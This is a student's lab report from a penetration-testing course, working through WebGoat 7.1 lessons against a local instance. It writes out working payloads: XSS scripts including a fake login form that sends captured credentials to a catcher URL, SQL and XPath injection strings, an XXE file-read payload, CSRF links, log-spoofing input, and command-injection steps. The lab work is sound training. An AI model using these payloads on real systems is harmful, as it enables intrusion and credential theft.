


Niko Heiskanen
This is a report for the penetration testing cource taught by Tero Karvinen
Webgoat-7.1
Access Control Flaws:
Using an Access Control Matrix
After trying what users are able to access account manager resource i found that the user Larry is able to do so.
Bypass a Path Based Access Control Scheme


For this one i decided to turn on burpsuite to easily change the file the webapp was trying to access. To do this i set the interface to listen on to port 8081 from the proxy options to avoid conflict with webgoat that is running on the same port by default. After this i setup foxyproby to listen on the same port and i was ready to go. With some trial and error i found that the request seen in the image got me access to the required file by going back a few directories, going in WEB-INF and and getting me the spring-security.xml.
LAB: Role Based Access Control
Stage 1:
For this one the goal is to delete Toms profile as a regular employee. First i logged in as an admin to see the value for the "delete profile" button. Seeing it is “DeleteProfile” i logged in as normal employee and used burp to intercept the request to view toms profile and changed the action in the request from “ViewProfile” to “DeleteProfile”.
Stage 2: Dev Only
Stage 3:


Now the goal is to view another employees profile as a regular user. Using inspect element in the browser and looking closer at the form i can see a list of emplyees and IDs. As before i logged in as good old tom and intercepted the request to view profile using burp. From there i just changed the value of "employee_id" to Nevilles id (112).
Stage 4: Dev Only
AJAX Security
DOM Injection
As the goal for this was to enable the “Activate” button so i looked at the page source with the inspector again. Looking at it i saw the “disabled” attribute for the button so removing that allowed me to click the button and pass the lesson.
LAB: DOM-Based Cross-Site Scripting
Stage 1:


Goal being to deface this website with the provided image i took a look at the image source and simply put that in an image tag as follows:
<img src="http://localhost:8080/WebGoat/images/logos/owasp.jpg">
Stage 2:
To create a JavaScript alert using the image tag i simply used the “onerror” attribute like this:
<img onerror='alert("Hello World")'>
Stage 3:

This time having to use the iframe tag to create the JavaScript alert i created the tag and used the “onload” attribute to run JavaScript when the object is loaded as the name suggests:
<iframe onload="alert('Hello World')">
Stage 4:

Oddly enough Stage 4 just gives the answer right away. I belive that the point of the provided solution is to create a fake login form to steal users password utilizing XSS.
Stage 5: Required to edit source so i skipped it
LAB: Client Side Filtering
Stage 1:

For this the goal was to find the CEOs salary as a user that has no access to that information. Looking at the page source as usual i found the user list with the options containing the employee IDs as a value attribute. Knowing from a previous challenge that Nevilles id is 112 i simply changed the value for the option “Tom Cat” to 112 and selected it from the dropdown menu to see Nevilles salary.
Stage 2:
This one required to modify the source code and since it was not required for the homework i was too lazy to actually mount the docker container. Guess thats it for Client Side Filtering.
XML Injection

Goal this time was to redeem more rewards that i could afford. After taking a moment to look at the page source i decided to try to redeem the 3 rewards i could afford and intercept the request using burp. Looking at the request i could see that in the request data the options i chose were clearly labeled as check1001, check1002 and check1003 and had the value of “on”. From there i simply assumed that rest of the rewards would follow the same naming scheme so i simply added check1004 and check1005 with the value of “on” and forwarded the request completing the lesson.
JSON Injection


The instructions were to buy the non-stop flight for a cheaper price. I knew from the previous time i did this that it could have been done by modifying the page source but i decided to simply choose the non-stop flight and intercept the request using burp. Looking at the request i could see the price being specified in the “price2Submit” parameter as a value after the URL encoded $ sign. I changed the value to 000 and forwarded the request to complete the lesson.
Silent Transactions Attack
After trying to figure this one out i looked at the hints and they were suggesting to navigate to 'javascript:submitData(1234556,11000);' but for whatever reason i didnt get that to work. I tried to make sure that running the function in the console actually completes the challenge and it did. Out of curiosity it intercepted the request it made and saw the full URL it was navigating to. Seems like putting this
“localhost:8080/WebGoat/attack?Screen=218322538&menu=400&from=ajax&newAccount=1234556&amount=11000&confirm=Confirm” into the browser also completes the challenge. I assume the point of this was to create a malicious link that steals your money if you are logged in so im not sure if i was supposed to put JavaScript into the link.
Insecure Client Storage
Skipped
Dangerous Use of Eval
To find the eval function i tried putting a single quote in access code field and tried clicking the purchase button. This didnt return a pop-up like it should so after taking a peek at the hints i tried entering:
asd');alert(document.cookie);('
This ends the previous quotes and bractes with ') and the semi-colon starts a new function which could be just about anything then a semi-colon to end the function and (' so that the quote and bracet in the end has something to close and not error out.
Same Origin Policy Protection
Simply entered the provided link: https://www.google.com/search?q=aspect+security
Authentication Flaws
Skipped this one
Buffer Overflow
Off-by-One
To do this one i started by filling all fields with loads of "A"s. After submitting and accepting the terms i was asked to provide the name of the VIP to complete the lesson so after a while of thinking i took a look at the hints and finally figured out to look for the hidden fields on the last page. Took a couple tries to figure out that John Smith was the VIP.
Code Quality
Discover Clues in the HTML

As the name suggests there is there is something in the page source. Took a quick look and found credentials.
Concurrency
Thread Safety Problems
The instructions for this lesson talked about concurrency, using two browsers and gave two usernames so i opened the page in another tab and logged in with both users as fast as possible and completed this lesson.
Shopping Cart Concurrency Flaw

In this lesson i started by trying something similar to what i had to do in the previous lesson but eventually had to look at a few hints and figured out that i can update the cart when im in the next window to recieve diffrent items than what i was supposed to get. Instead of opening two browsers i decided to use burp to send the Update Cart request. After intercepting the request to update i sent it to repeater with ctrl + r so i can use it when i need to. I added a bunch of item to the shopping cart and clicked on “purchase” then in the update cart request i modified the amount of items in my cart to 1, sent the request and confirmed the purchase only to be greeted with a message saying i am on the right track but actually overpaid by 1102899%... Oops... So apparently updating the cart updates the quantity of items in the shopping cart so i went back and chose a lower quantity in the browser and larger quantity in burp to pass this lesson.
XSS
Stored with XSS

This lesson required for me to create a XSS script. To do this i went back to take a look at how i did the DOM-Based XSS/Stage4 and tried to use that to complete this lesson with something like this:
<input type = "password" name="pass"/><button onClick='javascript:window.location.assign("http://localhost:8080/WebGoat/capture/PROPERTY=yes&"+pass.value);'>Submit</button>
Somehow that worked out but when i tried to do it again to get a screenshot of the popup i got it didnt actually work. I tried to make it work for a while but ended up looking at the hints one at a time and after i finally figured out i have to close the form tag before my payload i completed the lesson with this:
</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("asdasd");}</script><form name="phish"><br><p>Username: </p><input type="text" name="user"><br><p>Password: </p><input type="password" name="pass"<br><input type="submit" name="login" value="login" onClick="hack()"></form>
Stored XSS Attacks

To complete this i added a simple JavaScript alert in the message:
<script>alert("asdasd")</script>
LAB: Cross Site Scripting
Stage 1: Stored XSS

The goal was to login as tom and create a script in the Street field so i did. After that i logged in as Jerry and viewed Toms profile to verify it worked and completed the lesson
Stage 2: Dev Only
Stage 3: Stored XSS Revisited
Only had to view Bruces profile as David
Stage 4: Dev Only
Stage 5: Reflected XSS

As the instructions said i went to the seach staff page and made a simple script:
<script>alert("asd")</script>
I didnt actually have to validate a malicious link as another user so i moved on.
Stage 6: Dev Only
Reflected XSS Attacks
Again added a simple script and completed the lesson. Only this time a bothered validating that i can craft a maliciuos link out of it by intercepting the request and adding the data to the URL after adding a question mark like this:
http://localhost:8080/WebGoat/start.mvc#attack/1406352188/900?QTY1=1&QTY2=1&QTY3=1&QTY4=1&field2=4128+3214+0002+1999&field1=%3Cscript%3Ealert(%22asd%22)%3C%2Fscript%3E&SUBMIT=Purchase
Cross Site Request Forgery

This time the goal is to create a malicious link that has src, menu and transferFunds parameters. I intercepted the request with burp, modified the data according to the instructions, created the following link out of it and passed the lesson:
http://localhost:8080/WebGoat/start.mvc#attack/2078372/900?scr=2078372&menu=900&transferFunds=9001&title=asd&message=asd&SUBMIT=Submit
CSRF Prompt By-Pass

For this i started by doing the same thing as last time but after to the initial link i changed transferFunds value to CONFIRM as instructed and completed the lesson
CSRF Token By-Pass

Again i started by crafting the malicious link except this time set the transferFunds value to “main”. Going to the link i was given a “Submit Query” button which i pressed, intercepted the request and got the CSRF Token. Then i only had to modify the value of tranferFunds to a number and forward the request to pass the lesson.
Improper Error Handling
Fail Open Authentication Scheme
To login as a user without a password i intercepted the login request with burp and expected something obvious but got just a simple login request. After looking at the html, thinking for a moment and looking at a couple of hints i realized that i can login without a password by simply removing the password parameter completely from the request and forwarding it.
Injection Flaws
Command Injection
To exploit this one i intercepted the request to view a file with burp and started playing around with it. I noticed that im injecting inside double quotes so i started with a double quote followed by a semi-colon to start a new command. I started by injecting a simple id command and was greeted with a message saying im on the right track and telling me what commands are available. I chose try try inject “netstat -a” so i did the same thing as last time but that didnt work. After a moment of thinking i figured out that the issue was probably the double quote at the end so i used another semi-colon to start an echo command to end something with the double quote at the end.
Numeric SQL Injection
As usual i intercepted the request with burp to easily modify the data that is sent. I entered 101 or 1 = 1 and sent it after url encoding it in burp. That completed the lesson but i was greeted with a message saying that i wont be able to do it again so naturallyi had to try. I didnt actually manage to get it working but i tried 1" or "1" = "1 which didnt work as i expected so i decided to move on for now.
Log Spoofing
Not completely sure how this actually works but after going at it for a moment i took a peek at the hints and learned that i can add a carriage return and line feed to write to a new line in the logfile. Apparently you could also add malicious javascript so it would run when admin goes to look at the logs in a browser. I completed the lesson by entering this in the username field: Tom%0d%0aLogin Succsessful for username: admin
XPATH Injection
For this one i had no idea what xpath is so i googled it a bit and tried SQL stye injection like this: 1' or 1 = 1 but that just broke something so i googled i little harder i found that entering this gets me what i need to complete this lesson: ' or 1=1 or ''='
Apparently this returns the first account number in the XML document.
LAB: SQL Injection
Stage 1

To login as the admin without the correct password i used a classic SQL injection like this: 1' or ‘1’ = '1
This return true if either previous statement or the statement is true and since im writing in-between single quotes i had to work around that by excluding the first and last single quote in my statement. Then i url encoded it and sent it to pass the lesson.
Stage 2
Dev Only
Stage 3
For this one i had to take a look at the hints to figure it out. I did try something similar to what i did last time but apparently i also had to order the results like this to make it work: 101 or 1=1 order by salary desc
Stage 4
Dev Only
String SQL Injection
This was simple to exploit with the usual 1 = 1 trick that i explained earlier.
Database Backdoors
Stage 1
After a while of trying union select statements to do this because using a semi-colon gave me an error once i took a look at the second hint and realized that i was supposed to use a semi-colon to start a new statement. Atleast i read about updating sql databases so after figuring out that i have to use a semi-colon it was really easy to do this with the command shown in the image. Update simply updates the specified table, set modifies the data in the chosen column with the given value and where limits this change to the row i wanted to change.
Stage 2
To complete this all i had to do is enter the provided code after a semi-colon.
Blind Numeric SQL Injection
This one definetly took me a moment to figure out but eventually after taking a peek at the hints i learned how to use brackets to create the statement seen in the image. I had to put the whole select statement in brackets so it would compare the output of that against a number i can choose so if the number im looking for is greater than the number i chose it will return true and i can narrow it down from there.
Blind String SQL Injection
To solve this i had to figure out how to take one letter at a time and convert it to ascii. Had to take a peek at the hints but it ended up being fairly simple. Substring takes the specified letter or letters from the string chosen with the select statement in the brackets and ASCII converts it to ascii value of the letter so i was able to compare it to a number. After a bunch of comparing numbers i ended up with the name Jill and passed the lesson. Also i realized that i dont even need to url encode everything so there is that.
Denial of Service
ZipBomb
To DoS this service the goal is to provide a zip file that is small enough to be uploaded but bigger than the usable storage when extracted so after a quick google search on how to make files a certain size i figured it out. I used truncate command with -s to specify size and made it 500mb just to safe and after compressing it, it shrunk down to 500kb probably due to being empty and easy to compress to a tiny size. I then uploaded the file and completed the lesson. Also ofcourse removed the file after that.
Denial of Service from Multiple Logins
To DoS this my goal was to login as 3 users at the same time but first i had to get some usernames and passwords. To do this i simply tried entering the good old 1' or ‘1’ = '1 and that gave me all the user information i needed. To login i used burp to make it easier so i intercepted a login request, sent it to repeater and from there i just sent the request 3 times with diffrent credentials each time and passed the lesson.
Insecure Communications
Insecure Login
Stage 1
My goal was to get Jacks password. Since the password was typed in andvance all i did is look at the page source and there i found that the password field had a value of “sniffy” which was the password needed to pass the lesson. In hindsight i realized i was supposed to use something like wireshark to sniff the packets and find the password that way. Whatever works i guess.
Stage 2
To do this i was supposed to use https which i didnt manage to get working for whatever reason but the point was just to see that now the data is encrypted when using https so ill take webgoats word for it and move on.
Insecure Storage
Encoding Basics
This one just to try diffrent encodings and hashing algorithms so i clicked stuff and thats about it.
Malicious Execution
Malicious File Execution
After trying to do this in php with no results so i looked at the hints and found out that im supposed to make a jsp file. Not knowing anything about jsp i went on google to find some information about file creation using jsp and found some code that let me do that. I created the jsp file, uploaded it and then navigated to localhost:8080/uploads/file.jsp and completed the lesson by doing that. Apparently the lines with String, File and boolean create the file while the rest of the line actually write to it.
Parameter Tampering
Bypass HRML Field Restrictions

Here i started by looking at the disabled input field. I looked at the source and removed the "disabled" attribute from the disabled imput to enable this field and sent a request through burp. In burp i simply gave every parameter an awful looking value filled with all kinds of bad characters and forwarded it after url encoding it to pass this one.
XML External Entity (XXE)
To exploit this one i had to use XXE which im not very familiar with so i looked at some cheatsheets and figured out that i can create an entity that works kinda like a variable. I first set it to read /etc/passwd and put the entity in the input field but this didnt complete the lesson despite working so i had had to just list the root directory as instructed with the following command:
<?xml version="1.0"?><!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///"> ]><searchForm> <from>&ent;</from></searchForm>
Exploit Hidden Fields
Since this was called “Exploit Hiddden Fields” i started by inpecting the HTML code and found a hidden field that determines the price. Simply changing the price and updating the cart completed the lesson.
Exploit Unchecked Email
This one was fairly simple. I started by verifying that i can write working HTML in the message with the <b> tags and after sending it i saw that my message was bold which confirmed my suspicion. I the created a simple JavaScript alert within script tags and sent it. It worked but i had to try sending my script to someone else as well to pass the lesson so i intercepted the request with burp and modified the “to” parameter to change the reciever and passed.
Bypass Client Side JavaScript Validation
I assume my goal was to bypass the client side validation by intercepting the request with burp and sending the website unexpected input but for some reason sending that didnt complete the lesson. Simply entering bad input on the website seems to have worked instead. I doubt this was intended and after completing the lesson i looked at the hints which confirmed my initial assumption about how this was supposed to work.